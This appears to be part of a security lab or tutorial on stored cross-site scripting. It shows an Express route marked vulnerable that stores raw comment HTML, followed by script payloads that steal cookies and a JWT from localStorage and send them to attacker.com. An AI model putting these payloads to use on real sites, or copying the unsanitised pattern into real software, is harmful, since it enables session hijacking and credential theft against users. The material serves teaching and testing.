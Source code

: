 ```javascript
// VULNERABLE BACKEND - Comment Creation
app.post('/api/comments/task/:taskId', authenticateUser, async (req, res) => {
  const { taskId } = req.params;
  const { content } = req.body;
  
  try {
    // VULNERABILITY: No input sanitization
    const comment = await prisma.comment.create({
      data: {
        content: content, // Raw HTML stored directly
        taskId: parseInt(taskId),
        userId: req.user.id
      },
      include: {
        user: { select: { firstName: true, lastName: true } }
      }
    });
    
    res.status(201).json(comment);
  } catch (error) {
    res.status(500).json({ error: 'Failed to create comment' });
  }
});
```

## Exploitation Techniques

### 1. Basic Script Injection

**Objective**: Execute JavaScript in victim's browser

```html
<!-- Simple alert payload -->
<script>alert('XSS Vulnerability Found!')</script>

<!-- Cookie theft -->
<script>
  fetch('/api/steal-cookies', {
    method: 'POST',
    body: JSON.stringify({ cookies: document.cookie }),
    headers: { 'Content-Type': 'application/json' }
  });
</script>
```

### 2. Session Hijacking

**Objective**: Steal user authentication tokens

```html
<!-- JWT token theft from localStorage -->
<script>
  const token = localStorage.getItem('token');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token: token, url: window.location.href }),
    headers: { 'Content-Type': 'application/json' }
  });
</script>

<!-- Cookie theft -->
<script>
  new Image().src = 'https://attacker.com/steal?cookies=' + encodeURIComponent(document.cookie);
</script>
```